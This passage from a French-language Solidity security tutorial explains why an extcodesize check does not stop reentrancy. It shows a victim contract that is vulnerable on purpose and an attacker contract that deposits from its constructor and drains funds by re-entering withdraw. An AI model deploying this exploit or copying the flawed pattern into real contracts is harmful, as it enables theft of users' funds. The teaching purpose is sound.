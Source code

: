 On pourrait envisager de contrecarrer la réentrance en empêchant simplement les contrats intelligents d'interagir avec votre code. Vous recherchez stackoverflow, vous trouvez cet extrait de code avec des tonnes de votes positifs :

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Cela semble sensé : les contrats ont du code, si l'appelant a du code, cele ne l'autorise pas à déposer. Tentons de l'ajouter :

```solidity
// CE CONTRAT A UNE VULNÉRABILITÉ INTENTIONNELLE, NE PAS COPIER
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Maintenant pour déposer de l'ETH, vous ne devez pas avoir de code de contrat intelligent à votre adresse. Ceci est néanmoins facilement surmonté avec le contrat d'attaquant suivant :

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
